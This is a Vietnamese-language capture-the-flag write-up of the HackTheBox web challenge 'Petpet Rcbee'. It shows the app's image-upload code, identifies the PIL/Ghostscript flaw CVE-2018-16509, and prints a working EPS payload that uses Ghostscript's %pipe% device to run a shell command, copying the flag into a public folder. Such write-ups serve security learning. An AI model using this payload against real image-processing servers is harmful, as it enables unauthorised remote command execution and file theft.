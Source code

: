 ```yaml
---
title: HTB Petpet Rcbee
author: HoangND
date: 2021-09-05 08:51:00 +0700
categories: [Writeups, HackTheBox]
tags: [pil, hack the box]
---
```


Petpet rcbee là một web challenge. Sau khi xem xét thì thấy rằng trang web chỉ có một chức năng duy nhất là upload 1 ảnh sau đó "pet" ảnh này.

![image](https://user-images.githubusercontent.com/61985236/132112457-f6c6f3b3-45cf-4de4-a1c1-91f03404a76f.png)

Oke kiểm tra source code xem có gì có thể lợi dụng để RCE thông qua file được tải lên hay không

```python
def petpet(file):

    if not allowed_file(file.filename):
        return {'status': 'failed', 'message': 'Improper filename'}, 400

    try:
        
        tmp_path = save_tmp(file)

        bee = Image.open(tmp_path).convert('RGBA')
        frames = [Image.open(f) for f in sorted(glob.glob('application/static/img/*'))]
        finalpet = petmotion(bee, frames)

        filename = f'{generate(14)}.gif'
        finalpet[0].save(
            f'{main.app.config["UPLOAD_FOLDER"]}/{filename}', 
            save_all=True, 
            duration=30, 
            loop=0, 
            append_images=finalpet[1:], 
        )

        os.unlink(tmp_path)

        return {'status': 'success', 'image': f'static/petpets/{filename}'}, 200

    except:
        return {'status': 'failed', 'message': 'Something went wrong'}, 500
```

Ảnh sau khi được tải được xử lý bằng hàm petpet. 
Bên trong thực hiện các thao tác như lưu ảnh vào file tạm, generate một ảnh gif dựa trên ảnh này, sau đó đưa nó vào thư mục theo đường dẫn là biến UPLOAD_FOLDER ở trong config. 
Cuối cùng là xóa ảnh trong tmp.

Trang web này sử dụng một thư viện là PIL để xử lý ảnh, để xem PIL có CVE nào k. 
Sau khi xem xét một vòng thì có 1 CVE liên quan đến PIL và Ghostscript để RCE là [CVE-2018-16509](https://store.vsplate.com/en/post/141/), check lại thì bên trong file docker có tồn tại cái gọi là Ghostscript thật.

![image](https://user-images.githubusercontent.com/61985236/132112621-6aa6440d-069f-4f3d-98d6-ac8464924feb.png)

Sử dụng luôn craft image của CVE, chạy thử trên local

![image](https://user-images.githubusercontent.com/61985236/132112641-0d615a6f-1183-4c0c-8e83-5d2cc5f5d787.png)

Oke vậy là đã RCE được, bây giờ cần làm thế nào để đọc được flag được dấu bên trong. Để ý rằng có một đường dẫn tệp được public là UPLOAD_FOLDER (/static/petpets/).
Vậy chỉ cần đọc file flag và ghi vào một file bất kỳ trong đường dẫn này là xong.

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cat flag > application/static/petpets/test.txt) currentdevice putdeviceprops
```

![image](https://user-images.githubusercontent.com/61985236/132112752-4583ab37-3e83-4e77-9d83-bfde6b024c67.png)
